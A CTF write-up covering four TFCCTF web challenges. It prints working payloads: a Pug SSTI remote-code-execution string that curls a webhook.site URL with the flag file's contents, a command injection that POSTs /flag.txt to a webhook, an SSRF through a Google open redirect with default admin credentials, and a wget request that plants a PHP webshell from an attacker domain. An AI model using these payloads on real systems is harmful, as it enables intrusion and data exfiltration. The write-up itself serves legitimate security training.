

## GREETINGS [Web] warmup 

`Welcome to our ctf! Hope you enjoy it! Have fun`

It seems like a challenge that reflects the username input, it typically is a SSTI:


The first thing is to find the template engine used. In this case it is running expresse so its nodejs the framework. Lets try all the template engines from hacktricks. The one that stands out is pugjs because the input #{7*7} gives 49. https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#pugjs-nodejs


Lets create a webhook and make a curl to it:

GET /result?username=%23{function(){localLoad%3dglobal.process.mainModule.constructor._load%3bsh%3dlocalLoad("child_process").exec('curl+https://webhook.site/e79c872a-7219-4b9e-9302-843c19765e4e/')}()}


And we got a connection meaning we can run commands. Lets read the flag:

GET /result?username=%23{function(){localLoad%3dglobal.process.mainModule.constructor._load%3bsh%3dlocalLoad("child_process").exec('curl+https://webhook.site/e79c872a-7219-4b9e-9302-843c19765e4e/`cat+flag.txt`')}()}


flag: TFCCTF{a6afc419a8d18207ca9435a38cb64f42fef108ad2b24c55321be197b767f0409}


## Surfing [Web] easy

`My friend wanted a site on which he could steal other people's photos. Can you break into it ?`

If we try to "copy address" of an image in google we get a link like:

`https://www.google.com/url?sa=i&url=https%3A%2F%2Fpaperandinkprinting.com%2Fproduct%2Ftest-product%2F&psig=AOvVaw0asOJ7ainNezUugD5aA46q&ust=1722685276064000&source=images&cd=vfe&opi=89978449&ved=0CBEQjRxqFwoTCLixmYqo1ocDFQAAAAAdAAAAABAE`

CHanging the url to our webhook we get an error message which seems like a page that protects from redirects:

http://google.com/url?sa=i&url=https://webhook.site/e79c872a-7219-4b9e-9302-843c19765e4e&psig=AOvVaw0asOJ7ainNezUugD5aA46q&ust=1722685276064000&source=images&cd=vfe&opi=89978449&ved=0CBEQjRxqFwoTCLixmYqo1ocDFQAAAAAdAAAAABAE


Another way to redirect is: `http://google.com/amp/s/example.com/`. Here is the link: <https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass#abusing-www.google.com-for-open-redirect> 

Using this with a flask server that redirects to port 8000 we get an admin login(To find port 8000 we can just use fuzz to brute force all the ports until we get something):

```py
from flask import Flask, redirect

app = Flask(__name__)

@app.route('/')
def home():
    return redirect('http://localhost:8000/')

if __name__ == '__main__':
    app.run(debug=True)

```

To remove the .png that is appended we can use `#` character.
Payload: `http://google.com/amp/s/<NGROK_URL>/%23`

We are redirected to an admin login which can be bypass with simple default credentials admin:admin.

```html
<!DOCTYPE html>
<html>
<head>
    <title>Admin Login</title>
</head>
<body>
    <form action="admin.php" method="get">
        <label for="username">Username:</label>
        <input type="text" id="username" name="admin" required>

        <label for="password">Password:</label>
        <input type="password" id="password" name="admin" required>
        <br>
        <input type="submit" value="Login">
    </form>
</body>
</html>
```

Final payload: `http://localhost:8000/admin.php?username=admin&password=admin`

Flag: `TFCCTF{18fd102247cb73e9f9acaa42801ad03cf622ca1c3689e4969affcb128769d0bc}`

## SAFE_CONTENT [Web] medium

```text
Our site has been breached. Since then we restricted the ips we can get files from. This should reduce our attack surface since no external input gets into our app. Is it safe ?

For the source code, go to /src.php
```


At src.php we have the source code:


We have a pretty obvious objective, which is command injection. To reach it, we have to bypass a very poor URL check that just checks the host to be localhost and then make our fetched content be double base64-encoded so that the command is executed without any errors.

The isAllowedIP function uses parse_url to check the URL’s host. However, it does not check the protocol, so PHP wrappers such as php://localhost or data://localhost are valid. The first of these will not work, but the data:// wrapper does not check the content type: data://text/plain and data://localhost/plain will do the same. We can abuse this to achieve command injection with the following payload:

```
# payload
a | curl -X POST -d @/flag.txt <WEBHOOK>
```


Now we double base64-encode it (fetchContent decodes it once, and then it is decoded again in the exec call) and we send the following URL to the challenge:

`data://localhost/plain;base64,<DOUBLE_BASE64_PAYLOAD>`


And get the flag in our webhook.


Flag: `TFCCTF{0cc5c7c5be395bb7e7456224117aed15b7d7f25933e126cecfbff41bff12beeb`}


## Funny [Web] medium

`This challenge is HILARIOUS!`

We are presented with a php white box with what it seems like a joke generator:



We only have a:
- httpd.conf
- index.php
- image

Index.php has the following code:

```php
<?php 
      
$jokes = ["Why did the hacker go broke? He used up all his cache.", "Why was the JavaScript reality show cancelled after one episode? People thought it was too scripted.", "Why do programmers prefer dark mode? Light attracts bugs."];

if (isset($_GET['new_joke'])) {
    echo $jokes[array_rand($jokes)];
}

?>
```

And the httpd.conf has a bunch of configs.
One of them is a misconfiguration:

```
ScriptAlias /cgi-bin /usr/bin
Action php-script /cgi-bin/php-cgi
AddHandler php-script .php

<Directory /usr/bin>
    Order allow,deny
    Allow from all
</Directory>
```

This config allows us to execute any binaries in /usr/bin/, such as wget.

Using wget to write a PHP webshell into /var/www/public/:

GET /cgi-bin/wget?http://<attacker_domain>/webshell.php+-O+/var/www/public/webshell.php HTTP/1.1
